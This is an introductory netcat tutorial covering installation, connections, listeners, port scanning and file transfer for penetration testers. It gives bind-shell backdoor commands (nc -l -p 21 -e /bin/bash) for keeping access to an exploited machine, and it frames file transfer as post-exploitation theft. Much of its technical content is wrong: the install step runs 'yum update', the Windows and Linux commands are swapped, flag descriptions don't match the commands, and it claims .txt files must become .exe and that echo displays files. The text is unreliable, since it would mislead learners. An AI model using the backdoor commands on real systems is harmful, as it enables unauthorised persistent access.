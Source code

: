 ### Introduction
Netcat is a network analysis tool developed for security specialists and hackers to analyze a network in traffic.

It is considered a `swiss-army knife` in information technology due to its limitless opportunities like the ability to create almost any kind of network connection.

At its early stages, netcat was developed to open up UDP/TCP connections between two machines from any desired port.

Over time, it has been improved and now it is used for port scanning, port forwarding, file transfer, and also remote administration. This article will help us understand how Netcat performs these operations.

Netcat can further be used as a back-end device that can be used or driven by other programs or scripts.

It is also a must-have tool for pen-tester since it is essential for network debugging and investigation.

### Goals
In this tutorial, we will mainly focus on the following:
- [Executing general Netcat commands](#executing-commands-on-netcat)
- [Modes of running Netcat](#modes-of-running-netcat)
- [Uses of Netcat](#uses-of-netcat)

### Installing Netcat
First, before we start playing around with Netcat, make sure it is installed on your working machine. It is usually pre-installed on Kali Linux but if that is not the case in your machine, follow the following steps to install it.

1. Open your bash terminal.
2. Make sure you have an internet connection.
3. Run the command below to install Netcat.

```bash
yum update -y
```

4. To check if the installation was successful, we can scan Google to see if we can reach it. In this case we have checked the version of Netcat and connection of Google on port 8080

```bash
nc -vz google.com 8080
```

### Executing commands on Netcat
Netcat is only available in the command-line interface. You can access Netcat on the `command line` on Windows and `bash terminal` on Linux.

Below is the common Netcat command syntax:

```bash
nc [options][target_ip address][port]
```

Now, let's discuss some actions that can be executed via Netcat.

#### 1. Help
To start with, you might want to know the commands you will interact with in your Netcat journey. Run the `nc -help` or `nc -h` command to list all the commands available in Netcat as shown below.

![Help Command Output](/engineering-education/introduction-to-netcat/help.png)

#### 2. Connecting Server
To achieve this, you have to access a port where a particular service is running and execute the code linking it with the Netcat commands.

The syntax is as shown below.

```bash
nc [IP Address] [Port Number] # for both the target machine.
```

Example:

```bash
nc 192.168.234.128 8080
```

In the example above, we have connected the internet accessing service via port number `8080` with the IP address `192.168.234.128`.

#### 3. Connecting two machines
To do this, we will have to set one device as the **Initiator** and the other device as the **Listener**. In our case, we will use Kali Linux as the initiator and the Windows machine as the listener.

**Creating the listener** - First, let's create the listening Machine which in our case is Windows 10. To successfully do so, run the following Netcat command:

```bash
nc -lvp 4444
```

In the command above:

- `l` - Setting up listening mode.
- `v` - Setting verbose.
- `p` - Setting up port number.

**Creating the initiator** - Creating the initiator is simple as you only need to run the IP address of the listening machine followed by the port number.

See the example is as shown below.

```bash
nc 192.168.234.128 8080
```

#### 4. Creating a backdoor
After getting a Meterpreter shell back or successfully exploiting a device, you might need to maintain your access so you can get back to the target device at any time. With Netcat, you can run a one-line command to achieve this. This is called creating a backdoor.

For Windows, use: `nc -l -p 21 -e /bin/bash`

For Linux use: `nc -l -p 21 -e hack.exe`

#### 5. Saving output
Information gathering is one of the most important fundamentals in penetration testing. To save the information gathered as the output from Netcat, we will use the parameter `-o` followed by the location to save the output as shown below.

```bash
nc 192.168.234.128 8080 -v -o /Desktop/Output.txt
```

### Modes of running Netcat
We have two common modes of running Netcat:

1. **Client mode/ initiator mode**

As we discussed earlier, the client or initiator mode always starts the connection to the listener.

2. **Listener Mode**

To set up the listener, we need the `port` number. The command also contains the `listening` and `verbose` commands.

### Uses of Netcat
1. **Port Scanning**

For every hacker or penetration tester, before performing any attack, you need to spot weak links or vulnerabilities in a target system. There are several ways to achieve this and one of them is `port scanning`.

Port scanning is the act of running a network analysis on a system to determine open or closed ports on a specific target machine.

This can be done by specifying the IP address of the target machine and setting up some parameters as shown in the syntax below.

```bash
nc -v -w2 -z [target_ip] 20-40
```

From the example above, the parameters are set to perform the following actions.

- `v` - **Verbose** means to give detailed information about the port being scanned.
- `z` - Prevents sending data to any TCP thus enabling fast scanning of ports.
- `i` - It inserts a delay between each port probe to limit scanning speed.

Even though Netcat can be used for Port scanning, it is however not the top-ranked tool for port scanning. The recommended tool is [NMAP](https://www.section.io/engineering-education/nmap-network-scanner/).

2. **Data/ File transfer**

After successfully exploiting a target machine and you have control over it, you may need Netcat for the post-exploitation phase. This is where you remotely run commands on the target machine using your local machine.

In some cases, you may want to transfer files or some data into the local machine which is mostly a Kali Linux machine since it is the recommended OS for penetrating testing.

To learn more about Kali Linux, go through [this article](https://www.section.io/engineering-education/getting-started-with-kali-linux/).

The example below explains how to transfer files using Netcat.

Let's take a sample text file named `test.txt` which in this case is in our targets device storage. To transfer the file into our local machine, run the Netcat command below on the target device either remotely or physically.

This is to purposefully set up a listener on the target device.

```bash
nc –l –p 21 >test.txt
```

In the command above, we have specified the port number 21 by preceding the `-p` command which is used to initialize the port number.

We have also set up the machine to the listening mode by using the `-l` command.

After successfully setting up a listener, we can therefore set up an initiator on our local machine by running the following command.

```bash
nc destination 21 <test.txt
```

By now, you may have noticed that we have set up client mode to connect to any listener open on port 21. We have to state the `destination` of our initiator by providing the listening port number and the name of the file to transfer.

To show the output of what is contained in the file, run the `type` command on Windows and the `echo` command on Kali Linux.

```bash
type test.txt
```

For Kali Linux, you will have to convert the `.txt` file to executable format `.exe` since Kali Linux cannot run Windows files with the `.txt` extension.

```bash
echo test.exe
```

### Conclusion
From what we have learned, we can agree that Netcat is a must-have tool for a penetration tester. It is easy to learn and allows execution of a wide range of actions as mentioned in this tutorial. Netcat is therefore recommended for penetration testing.
